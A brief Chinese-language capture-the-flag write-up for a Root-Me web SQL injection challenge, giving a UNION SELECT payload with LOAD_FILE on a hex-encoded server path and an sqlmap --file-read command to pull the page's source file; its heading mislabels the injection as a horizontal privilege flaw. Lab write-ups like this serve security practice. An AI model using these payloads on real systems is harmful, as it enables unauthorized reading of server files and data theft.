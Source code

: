 
## 方法一：UNION 水平越权漏洞

```sql
-8544 UNION ALL SELECT NULL,LOAD_FILE(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870),NULL,NULL--
```

------

## 方法二：sqlmap

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --file-read /challenge/web-serveur/ch31/index.php
```

